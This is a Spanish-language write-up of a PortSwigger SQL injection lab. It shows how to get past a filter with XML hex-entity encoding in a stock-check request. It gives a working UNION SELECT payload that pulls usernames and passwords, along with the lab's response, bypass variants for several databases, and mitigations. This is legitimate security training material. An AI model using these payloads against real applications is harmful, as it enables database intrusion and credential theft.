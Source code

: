 
---
# Guía práctica: Bypass de filtros con codificación XML en Inyección SQL

---

## Laboratorio PortSwigger

Para ilustrar con ejemplos reales usaremos el laboratorio gratuito de [PortSwigger](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding):

`https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding`

Todas las pruebas que se muestran a continuación se realizaron contra la URL provista por ese laboratorio.

---

## Confirmación de la vulnerabilidad

**Resumen:** en este laboratorio la entrada vulnerable es el `stock check`. Para confirmarlo interceptamos peticiones con Burp Suite y observamos el valor de la estructura `xml`.

**Paso práctico (comprobación rápida):**

1. Localiza la cabecera `stock check`.
    
2. Intercepta una petición con Burp (o abre DevTools).
    
3. Modifica temporalmente el valor añadiendo una comilla simple (`'`) al final:  
    `<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1'</productId><storeId>1</storeId></stockCheck>`
    

---

## Explotación

**Nota:** usamos la extensión de Burp Suite llamada `Hackvertor` para generar y estructurar entidades XML que el parser reconstituya como texto SQL válido.

**Payload de ejemplo:**

```html
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId><@hex_entities>1 union select username||':'||password from users</@hex_entities></storeId>
</stockCheck>
```

**Respuesta esperada (ejemplo):**

```
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 100

administrator:y6f9k4etn394ty88x9ms
621 units
wiener:rxb51mrgk558d9tr2q17
carlos:q7ggvm46uv50c4mln69g
```

---

## Por qué funciona (resumen técnico)

- El parser XML expande entidades/encodings que el filtro no detecta como maliciosas.

- Tras la expansión, la cadena resultante contiene `UNION SELECT ...` que el backend concatena en la consulta SQL.

- `username||':'||password` es una concatenación válida en ciertos SGBD (p. ej. PostgreSQL); en otros SGBD habrá que adaptar la concatenación.


---

## Variantes y adaptaciones rápidas

- Codificar `UNION`/`SELECT` como entidades hex (`&#x55;&#x4E;&#x49;&#x4F;&#x4E;`) para evadir filtros.

- Ajustar la concatenación según el SGBD (Postgres: `||`, MySQL: `CONCAT(...)`, MSSQL: `+`).

- Usar subconsultas con `WHERE username='administrator'` y `LIMIT 1` para evitar ambigüedades por múltiples filas.


---

## Mitigaciones recomendadas (breve)

1. Desactivar la expansión automática de entidades XML si no es necesaria.

2. Validar y normalizar los datos tras el parseo y antes de su uso en SQL.

3. Usar consultas parametrizadas / prepared statements.

4. Aplicar whitelists y validar tipos/longitudes en los campos XML.

5. Monitorizar y alertar ante entidades XML inusuales.


---

